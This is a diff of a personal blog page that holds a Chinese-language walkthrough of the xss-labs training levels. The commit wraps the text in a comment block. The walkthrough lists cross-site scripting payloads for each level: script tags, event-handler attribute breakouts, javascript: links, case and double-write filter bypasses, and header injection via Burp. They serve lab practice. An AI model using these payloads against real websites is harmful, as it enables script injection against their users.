

Before and after one commit to GuoKet/GuoKet.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 306-1219 px from the top of the page, without its empty margins (233-1043 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Site updated: 2022-04-25 16:54:01

```diff
--- a/index.html
+++ b/index.html
@@ -76,19 +76,21 @@
     <div class="entry">
 
         <p>XSS-vulfocus/xss-labs</p>
-<p>//第一关：通过控制台输入alert()或者通过URL上test替换为<script>alert(/xss/)</script>。</p>
-<p>//第二关：将keyword的值替换为keyword=”&gt;<script>alert('xss')</script> //或者用<code>&quot;&gt;</code>闭合value标签”&gt;<script>alert(1)</script>。</p>
-<p>//第三关：将keyword的值替换为keyword=’onfocus=javascript:alert(‘xss’) &gt; //&amp;submit=搜索，鼠标移至输入框。</p>
-<p>//第四关：将keyword的值替换为keyword=”onfocus=javascript:alert(‘xss’) “，点击输入框。</p>
-<p>//第五关：将keyword的值替换为keyword=”&gt; &lt;a href=javascript:alert(‘xss’) &gt; xss</a> //，点击链接</p>
+<p>/**</p>
+<p>第一关：通过控制台输入alert()或者通过URL上test替换为<script>alert(/xss/)</script>。</p>
+<p>第二关：将keyword的值替换为keyword=”&gt;<script>alert('xss')</script> //或者用<code>&quot;&gt;</code>闭合value标签”&gt;<script>alert(1)</script>。</p>
+<p>第三关：将keyword的值替换为keyword=’onfocus=javascript:alert(‘xss’) &gt; //&amp;submit=搜索，鼠标移至输入框。</p>
+<p>第四关：将keyword的值替换为keyword=”onfocus=javascript:alert(‘xss’) “，点击输入框。</p>
+<p>第五关：将keyword的值替换为keyword=”&gt; &lt;a href=javascript:alert(‘xss’) &gt; xss</a> //，点击链接</p>
 <p>或者直接通过超链接输入”&gt; 12<a href="javascript:alert(1)">34</a></p>
-<p>//第六关：大小写绕过，”&gt;<Script>alert(1)</script></p>
-<p>//第七关：双写绕过的方式，”&gt;<scscriptript>alert(1)</scrscriptipt></p>
-<p>//第八关：转义字符绕过的方式，java&amp;#115cript:alert(1)</p>
-<p>//第九关：链接不合法，所以添加https//，不过直接加语句不合法，所以在最后面注释掉http://通过检测就行，java&amp;#115cript:alert(1)  //http:// </p>
-<p>//第十关：查看源代码得知有三个值被隐藏掉了，对这三个值依次赋值查看源码，得知只有第三个值有反应，将第三个值赋为” type=”text” onmouseover=”alert(1)</p>
-<p>//第十一关：查看源代码得知有t_ref的value是个URL，burp抓包将reference替换为click me !” type=”button” onclick=”alert(/xss/)</p>
-<p>//第十二关：查看源代码得知有t_ua的value有内容，burp抓包将user-Agent替换为click me !” type=”button” onclick=”alert(/xss/)</p>
+<p>第六关：大小写绕过，”&gt;<Script>alert(1)</script></p>
+<p>第七关：双写绕过的方式，”&gt;<scscriptript>alert(1)</scrscriptipt></p>
+<p>第八关：转义字符绕过的方式，java&amp;#115cript:alert(1)</p>
+<p>第九关：链接不合法，所以添加https//，不过直接加语句不合法，所以在最后面注释掉http://通过检测就行，java&amp;#115cript:alert(1)  //http:// </p>
+<p>第十关：查看源代码得知有三个值被隐藏掉了，对这三个值依次赋值查看源码，得知只有第三个值有反应，将第三个值赋为” type=”text” onmouseover=”alert(1)</p>
+<p>第十一关：查看源代码得知有t_ref的value是个URL，burp抓包将reference替换为click me !” type=”button” onclick=”alert(/xss/)</p>
+<p>第十二关：查看源代码得知有t_ua的value有内容，burp抓包将user-Agent替换为click me !” type=”button” onclick=”alert(/xss/)</p>
+<p>*/</p>
 
 
     </div>
```
Also changed, not shown: 2022/04/25/xss-labs/index.html (+17 -14 lines).
